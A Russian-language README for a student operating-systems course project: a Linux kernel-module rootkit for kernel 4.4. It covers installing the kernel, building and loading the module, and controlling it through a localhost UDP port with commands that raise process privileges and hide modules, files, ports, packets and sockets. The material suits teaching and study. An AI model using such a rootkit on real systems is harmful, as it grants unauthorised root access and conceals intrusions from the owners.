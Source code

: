 # Курсовой проект по ОС, на тему: "Модуль ядра rootkit"
Компилим, не выёживаемся, сдаём :^)
## Linux 
Качаем нужную версию, на всякий х32 оставлю, но работать не должно (вроде).
| Kernel |         x86         |        x86-64        |
|:-------------:|:-------------------:|:--------------------:|
|     4.4.0     | Ubuntu 16.04 i386 (647M) [[torrent]](http://old-releases.ubuntu.com/releases/16.04.0/ubuntu-16.04-server-i386.iso.torrent) [[iso]](http://old-releases.ubuntu.com/releases/16.04.0/ubuntu-16.04-server-i386.iso) |  Ubuntu 16.04 amd64 (655M) [[torrent]](http://old-releases.ubuntu.com/releases/16.04.0/ubuntu-16.04-server-amd64.iso.torrent) [[iso]](http://old-releases.ubuntu.com/releases/16.04.0/ubuntu-16.04-server-amd64.iso) |

* [Инструкция, как потом установить нужное ядро.](https://ubuntuhandbook.org/index.php/2016/01/how-to-install-linux-kernel-4-4-in-ubuntu/)\
* [Как загрузиться в grub, чтобы запустить ОС именно с определённого, старого, ядра](https://askubuntu.com/questions/16042/how-to-get-to-the-grub-menu-at-boot-time) А если короче, в `/etc/default/grub file` замени `0` в `GRUB_HIDDEN_TIMEOUT=0` на `-1`, чтобы постоянно заргужаться с него, далее пропиши `sudo update-grub`. Це будет полезно для тех, кто с виртуалок. 

### Далее на всякий:
```sh
sudo apt-get update
sudo apt install linux-headers-$(uname -r)
```
### Building

```sh
make
```

## Use

Load rootkit:

```sh
make load
```
Unload rootkit:

```sh
make unload
```
**Usage**
После `make load` вводим в терминале, а далее сюда же вписываем команды.
```sh
nc -4 -u localhost 8071
```
8071 задан как порт по умолчанию, при сильном желании, его можно сменить, на строчке 28 `UDP_PORT`, в файле `include.h`.
**Смена приритета по PID**
Проверить PID можно например `top`
```sh
escalate-PID
deescalate-PID
```
**Скрытие модулей**
```sh
hidemod
showmod
```
**Скрытие файлов определённого типа (должны начинаться на rootkit_ или .rootkit_, но во 2м варианте бывают проблемы!)**
```sh
hidefile
showfile
```

Остальное вроде всё нативно. Также есть функции, которые не вошли в РПЗ (по итогу не показал): 
- Скрытие портов (*usage* `hideport-12345` | `showport-12345`)
- Скрытие пакетов (можно чекнуть WireShark'ом)
```sh
hidepacket-udp4-192.168.2.141
hidepacket-udp6-0123:4567:89ab:cdef:0123:4567:89ab:cdef
hidepacket-tcp6-::1
--------------------
showpacket-udp6-0123:4567:89ab:cdef:0123:4567:89ab:cdef
showpacket-tcp6-::1
```
- Скрытие сокетов 
```sh
hidesocket-udp4-12345
hidesocket-udp6-12346
hidesocket-tcp4-12347
hidesocket-tcp6-12348
---------------------
showsocket-udp4-12345
showsocket-udp6-12346
showsocket-tcp4-12347
showsocket-tcp6-12348

```
